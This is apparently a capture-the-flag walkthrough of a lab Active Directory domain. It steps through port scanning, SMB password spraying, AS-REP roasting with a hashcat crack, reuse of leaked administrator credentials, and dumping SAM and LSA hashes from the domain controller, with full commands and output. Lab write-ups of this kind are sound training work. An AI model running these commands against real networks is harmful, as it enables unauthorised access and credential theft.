






As usual I will start by checking for all the alive services over all the TCP protocol:

```bash
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2026-04-20 23:47:38Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: alchemy.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  syn-ack ttl 64 Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: ALCHEMY)
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: alchemy.htb, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.alchemy.htb
| Issuer: commonName=dc.alchemy.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2026-04-19T13:10:50
| Not valid after:  2026-10-19T13:10:50
| MD5:     0abc 5777 1482 f684 cfd5 ddd6 4533 197a
| SHA-1:   8cc1 9431 9c0f 1f9a 6b0e 8f7f 9600 9c2a 2636 0cd4
| SHA-256: 2939 f414 b421 e5f5 a7ca af47 aaa6 18ca 5b18 18f3 4fd3 eb89 5d2f 831f 9e50 81b4
| -----BEGIN CERTIFICATE-----
| MIIC4DCCAcigAwIBAgIQEAsu5mlcT41P0RK64gdmQDANBgkqhkiG9w0BAQUFADAZ
| MRcwFQYDVQQDEw5kYy5hbGNoZW15Lmh0YjAeFw0yNjA0MTkxMzEwNTBaFw0yNjEw
| MTkxMzEwNTBaMBkxFzAVBgNVBAMTDmRjLmFsY2hlbXkuaHRiMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqMmgx15otpx2lTnxAvloG4s1v62wKD1ZLQog
| paLYPA3I52Wx0giicXYZEIbLZaiZgcOaHaOHXpRpsAIyMNtD3hWCX0GuSpGAt3VW
| 26vSXcJ18b3cc4s/xC679JprMEuVix0r08zOAAzN8EcnSWfnYSl7i1JQFsW/E9/Y
| HBWTTTSHdwggYUWX9vjSODTJS4bfpfDl8sIalxddCxmUqXrD1E37SAJChF2dDroE
| O4MEnYZWrYFkOyMucWN+jlWnzc3DG9VXGafwv06Bxd/UN8K2DrsnSY/ENpQh5fqm
| QDNTWXzaU3Qim2QqbycfKSGuCV6rP6vN014/aFerX/yTV6lbawIDAQABoyQwIjAT
| BgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQAD
| ggEBAJGKmo5wHPKVbTEW7qHheh0wu+m1WM6dfgoWzO4Z9GcwdF2jzbgSaXfpAWg9
| WpMm37oP+6Wf2R5mg9YPORYNzWSItlleoQg/0V7Jn2MRRFZbT+gCKOAh/T5Y3L7m
| q3yVFStPajO54mVzIMdN58oJdEfMHUO8MAuEhzInS4ihpzL6pPXpKvdfz5Wu6VP3
| kHqkyiljdRoMI0KFsICbxaxGwYK5Z8xoFNW/MUavy2BEULj1iCv00bSVCTHLJwkE
| doNGK5nkaH4+NkqbONVC1dhklwDF+t9pgEHxQsloK1DykEsfDZz7NLHn6qwD9HGZ
| 2ZaLOKLYwS3AvUFe7NYhur7NG/k=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: ALCHEMY
|   NetBIOS_Domain_Name: ALCHEMY
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: alchemy.htb
|   DNS_Computer_Name: dc.alchemy.htb
|   DNS_Tree_Name: alchemy.htb
|   Product_Version: 6.3.9600
|_  System_Time: 2026-04-20T23:48:35+00:00
|_ssl-date: 2026-04-20T23:48:46+00:00; +11h00m09s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49159/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49170/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49174/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49177/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49190/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Google Fuchsia (86%), IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:google:fuchsia cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Google Fuchsia (86%), IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.99%E=4%D=4/20%OT=53%CT=%CU=%PV=Y%G=N%TM=69E620A6%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=107%GCD=1%ISR=104%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# AD

As usual I start by checking my current user with a quick password spray to identify that the current user I held from WEB01, still works on this machine:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Alchemy]
└─$ netexec smb 172.16.0.2 -u users_windows.txt -p 'CsAdlLDAPMoDeBrnd12!' --continue-on-success
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [-] alchemy.htb\Administrator:CsAdlLDAPMoDeBrnd12! STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\Guest:CsAdlLDAPMoDeBrnd12! STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\krbtgt:CsAdlLDAPMoDeBrnd12! STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\aepike:CsAdlLDAPMoDeBrnd12! STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\calde:CsAdlLDAPMoDeBrnd12! STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [+] alchemy.htb\calde_ldap:CsAdlLDAPMoDeBrnd12! 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\thanos:CsAdlLDAPMoDeBrnd12! STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\james:CsAdlLDAPMoDeBrnd12! STATUS_LOGON_FAILURE 
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Alchemy]
└─$ netexec smb 172.16.0.2 -u users_windows.txt -p 'LandIAtErOUs' --continue-on-success
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [-] alchemy.htb\Administrator:LandIAtErOUs STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\Guest:LandIAtErOUs STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\krbtgt:LandIAtErOUs STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [+] alchemy.htb\aepike:LandIAtErOUs 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\calde:LandIAtErOUs STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\calde_ldap:LandIAtErOUs STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\thanos:LandIAtErOUs STATUS_LOGON_FAILURE 
SMB         172.16.0.2      445    DC               [-] alchemy.htb\james:LandIAtErOUs STATUS_LOGON_FAILURE 

```

Next, hunting for shares and the both users seems having R+W over a custom share on the WS02:

```bash
netexec smb 172.16.0.0/24 -u 'aepike' -p 'LandIAtErOUs' --shares
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [+] alchemy.htb\aepike:LandIAtErOUs 
SMB         172.16.0.2      445    DC               [*] Enumerated shares
SMB         172.16.0.2      445    DC               Share           Permissions     Remark
SMB         172.16.0.2      445    DC               -----           -----------     ------
SMB         172.16.0.2      445    DC               ADMIN$                          Remote Admin
SMB         172.16.0.2      445    DC               C$                              Default share
SMB         172.16.0.2      445    DC               IPC$            READ            Remote IPC
SMB         172.16.0.2      445    DC               NETLOGON        READ            Logon server share 
SMB         172.16.0.2      445    DC               SYSVOL          READ            Logon server share 
SMB         172.16.0.32     445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:None)
SMB         172.16.0.33     445    WS02             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS02) (domain:WS02) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         172.16.0.32     445    WS01             [-] WS01\aepike:LandIAtErOUs STATUS_LOGON_FAILURE 
SMB         172.16.0.33     445    WS02             [+] WS02\aepike:LandIAtErOUs (Guest)
SMB         172.16.0.33     445    WS02             [*] Enumerated shares
SMB         172.16.0.33     445    WS02             Share           Permissions     Remark
SMB         172.16.0.33     445    WS02             -----           -----------     ------
SMB         172.16.0.33     445    WS02             ADMIN$                          Remote Admin
SMB         172.16.0.33     445    WS02             C$                              Default share
SMB         172.16.0.33     445    WS02             DEVELOPMENT     READ,WRITE      Development tools
SMB         172.16.0.33     445    WS02             IPC$            READ            Remote IPC
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

netexec smb 172.16.0.0/24 -u 'calde_ldap' -p 'CsAdlLDAPMoDeBrnd12!' --shares
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [+] alchemy.htb\calde_ldap:CsAdlLDAPMoDeBrnd12! 
SMB         172.16.0.2      445    DC               [*] Enumerated shares
SMB         172.16.0.2      445    DC               Share           Permissions     Remark
SMB         172.16.0.2      445    DC               -----           -----------     ------
SMB         172.16.0.2      445    DC               ADMIN$                          Remote Admin
SMB         172.16.0.2      445    DC               C$                              Default share
SMB         172.16.0.2      445    DC               IPC$            READ            Remote IPC
SMB         172.16.0.2      445    DC               NETLOGON        READ            Logon server share 
SMB         172.16.0.2      445    DC               SYSVOL          READ            Logon server share 
SMB         172.16.0.33     445    WS02             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS02) (domain:WS02) (signing:False) (SMBv1:None) (Null Auth:True)
SMB         172.16.0.32     445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:WS01) (signing:False) (SMBv1:None)
SMB         172.16.0.33     445    WS02             [+] WS02\calde_ldap:CsAdlLDAPMoDeBrnd12! (Guest)
SMB         172.16.0.32     445    WS01             [-] WS01\calde_ldap:CsAdlLDAPMoDeBrnd12! STATUS_LOGON_FAILURE 
SMB         172.16.0.33     445    WS02             [*] Enumerated shares
SMB         172.16.0.33     445    WS02             Share           Permissions     Remark
SMB         172.16.0.33     445    WS02             -----           -----------     ------
SMB         172.16.0.33     445    WS02             ADMIN$                          Remote Admin
SMB         172.16.0.33     445    WS02             C$                              Default share
SMB         172.16.0.33     445    WS02             DEVELOPMENT     READ,WRITE      Development tools
SMB         172.16.0.33     445    WS02             IPC$            READ            Remote IPC
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                  

```

I see also that the MAQ is positive which means I can add computers to domain:

```bash
netexec ldap 172.16.0.2 -u 'calde_ldap' -p 'CsAdlLDAPMoDeBrnd12!' -M maq        
LDAP        172.16.0.2      389    DC               [*] Windows 8.1 / Server 2012 R2 Build 9600 (name:DC) (domain:alchemy.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        172.16.0.2      389    DC               [+] alchemy.htb\calde_ldap:CsAdlLDAPMoDeBrnd12! 
MAQ         172.16.0.2      389    DC               [*] Getting the MachineAccountQuota
MAQ         172.16.0.2      389    DC               MachineAccountQuota: 10

```

Next, I will make a scan dump of the AD schema for later on enumeration via Bloodhound:

```bash
bloodhound-ce-python -ns 172.16.0.2 -d alchemy.htb -u 'calde_ldap' -p 'CsAdlLDAPMoDeBrnd12!' -c All --zip --dns-tcp
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: alchemy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.alchemy.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.alchemy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.alchemy.htb
INFO: Found 9 users
INFO: Found 50 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.alchemy.htb
INFO: Done in 00M 06S
INFO: Compressing output into 20260420151103_bloodhound.zip

```

Now one of the users seems being part of the group that allows to WIRNM?  


But that's the same for Calde_ldap:



Now both users can indeed WINRM, but just because it says "pwned" this doesn't mean that they hold interesting permissions on the DC:

```bash
─(user㉿kali-almi)-[~/Downloads/Alchemy]
└─$ netexec winrm 172.16.0.0/24 -u 'aepike' -p 'LandIAtErOUs'        
WINRM       172.16.0.2      5985   DC               [*] Windows 8.1 / Server 2012 R2 Build 9600 (name:DC) (domain:alchemy.htb) 
WINRM       172.16.0.2      5985   DC               [+] alchemy.htb\aepike:LandIAtErOUs (Pwn3d!)
WINRM       172.16.0.33     5985   WS02             [*] Windows 10 / Server 2019 Build 19041 (name:WS02) (domain:WS02) 
WINRM       172.16.0.32     5985   WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:WS01) 
WINRM       172.16.0.33     5985   WS02             [-] WS02\aepike:LandIAtErOUs
WINRM       172.16.0.32     5985   WS01             [-] WS01\aepike:LandIAtErOUs
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Alchemy]
└─$ netexec winrm 172.16.0.0/24 -u 'calde_ldap' -p 'CsAdlLDAPMoDeBrnd12!' 
WINRM       172.16.0.2      5985   DC               [*] Windows 8.1 / Server 2012 R2 Build 9600 (name:DC) (domain:alchemy.htb) 
WINRM       172.16.0.2      5985   DC               [+] alchemy.htb\calde_ldap:CsAdlLDAPMoDeBrnd12! (Pwn3d!)
WINRM       172.16.0.32     5985   WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:WS01) 
WINRM       172.16.0.33     5985   WS02             [*] Windows 10 / Server 2019 Build 19041 (name:WS02) (domain:WS02) 
WINRM       172.16.0.32     5985   WS01             [-] WS01\calde_ldap:CsAdlLDAPMoDeBrnd12!
WINRM       172.16.0.33     5985   WS02             [-] WS02\calde_ldap:CsAdlLDAPMoDeBrnd12!
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```

Now even the user James is AS-REPRoastable:



```bash
netexec ldap 172.16.0.2 -u 'calde_ldap' -p 'CsAdlLDAPMoDeBrnd12!' --asreproast james.hash
LDAP        172.16.0.2      389    DC               [*] Windows 8.1 / Server 2012 R2 Build 9600 (name:DC) (domain:alchemy.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        172.16.0.2      389    DC               [+] alchemy.htb\calde_ldap:CsAdlLDAPMoDeBrnd12! 
LDAP        172.16.0.2      389    DC               [*] Total of records returned 1
LDAP        172.16.0.2      389    DC               $krb5asrep$23$james@ALCHEMY.HTB:e9cc6ce47f18ac167b0927057269f76d$a0f7a2fbebcea01ad03ab0fe78ba1d0cbdf90550e5ea77a3d2fb65d3489e3775dbe6fd36bf2393ecbabe92209fbd41bb6b9b0106b225b0082da5afe343742005c4f2b944e6103b030fbb672a65dc967d644c58cfdb2790dfffc6f3fdce2b9c8e18fcf85b7d4a4c779b0427c0d97025b0283fde1175dfc93a284174968baf75bfd5fb2bb626d962d9ac9e3ea285a952eb0b929b74ad3fd35ef90ef1da10baf2e3c0dae4d360071a7cb320af622183e0a46162505419e07c18c59317edfa17f098c0759869b573f78a848a287ee512f0427bb98ab6b4a1eff9ff8481ba23349380dc5091637f08c7207433

```

And we have his creds as well:

```bash
$krb5asrep$23$james@ALCHEMY.HTB:e9cc6ce47f18ac167b0927057269f76d$a0f7a2fbebcea01ad03ab0fe78ba1d0cbdf90550e5ea77a3d2fb65d3489e3775dbe6fd36bf2393ecbabe92209fbd41bb6b9b0106b225b0082da5afe343742005c4f2b944e6103b030fbb672a65dc967d644c58cfdb2790dfffc6f3fdce2b9c8e18fcf85b7d4a4c779b0427c0d97025b0283fde1175dfc93a284174968baf75bfd5fb2bb626d962d9ac9e3ea285a952eb0b929b74ad3fd35ef90ef1da10baf2e3c0dae4d360071a7cb320af622183e0a46162505419e07c18c59317edfa17f098c0759869b573f78a848a287ee512f0427bb98ab6b4a1eff9ff8481ba23349380dc5091637f08c7207433:greenday
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$james@ALCHEMY.HTB:e9cc6ce47f18ac167b0...207433
Time.Started.....: Mon Apr 20 15:41:22 2026 (0 secs)
Time.Estimated...: Mon Apr 20 15:41:22 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2263.9 kH/s (1.87ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> whitetiger
Hardware.Mon.#01.: Util: 35%

Started: Mon Apr 20 15:41:20 2026
Stopped: Mon Apr 20 15:41:24 2026

```

This new user can rdp:



```bash
 netexec rdp 172.16.0.0/24 -u 'james' -p 'greenday' 
RDP         172.16.0.2      3389   DC               [*] Windows 8.1 or Windows Server 2012 R2 Build 9600 (name:DC) (domain:alchemy.htb) (nla:True)
RDP         172.16.0.2      3389   DC               [+] alchemy.htb\james:greenday (Pwn3d!)
RDP         172.16.0.33     3389   WS02             [*] Windows 10 or Windows Server 2016 Build 19041 (name:WS02) (domain:WS02) (nla:True)
RDP         172.16.0.33     3389   WS02             [-] WS02\james:greenday (STATUS_LOGON_FAILURE)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```

# Foothold

Now the third flag was saved in the RDP session on James's desktop folder:



Now the user seems not possessing particular permissions so far but I see a excell file with some passwords?



And I have all the passwords what the hell?

```bash
┌──(user㉿kali-almi)-[~/Downloads/Alchemy]
└─$ netexec smb 172.16.0.2 -u calde -p CsAdlBrnd12!                               
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [+] alchemy.htb\calde:CsAdlBrnd12! 
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Alchemy]
└─$ netexec smb 172.16.0.2 -u thanos -p changeme
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [-] alchemy.htb\thanos:changeme STATUS_LOGON_FAILURE 
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Alchemy]
└─$ netexec smb 172.16.0.2 -u Administrator -p tXxAtjrJnKrz
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [+] alchemy.htb\Administrator:tXxAtjrJnKrz (Pwn3d!)

```

And now I can dump the flag from this machine:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime     Length Name                               
----                -------------     ------ ----                               
-a---         12/8/2023  10:26 AM         35 flag.txt                           


evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
ALCHEMY{d34R_L0RD_wH47_y34r_15_17?}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

Now it might be poitnless but I have dumped all the secrets from the DC:

```bash
netexec smb 172.16.0.2 -u Administrator -p tXxAtjrJnKrz --sam --lsa --dpapi
SMB         172.16.0.2      445    DC               [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC) (domain:alchemy.htb) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.0.2      445    DC               [+] alchemy.htb\Administrator:tXxAtjrJnKrz (Pwn3d!)
SMB         172.16.0.2      445    DC               [*] Dumping SAM hashes
SMB         172.16.0.2      445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:5f05761530126debd470d07ceeb42540:::
SMB         172.16.0.2      445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.0.2      445    DC               [+] Added 2 SAM hashes to the database
SMB         172.16.0.2      445    DC               [*] Dumping LSA secrets
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:aes256-cts-hmac-sha1-96:0e298baedb897150346a08dfe4864cbbe2db78e2653e86319428659448065f55
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:aes128-cts-hmac-sha1-96:e2d9cecd4f400998be8efdd8ce25423a
SMB         172.16.0.2      445    DC               ALCHEMY\DC$:des-cbc-md5:865407ef9446d3e6
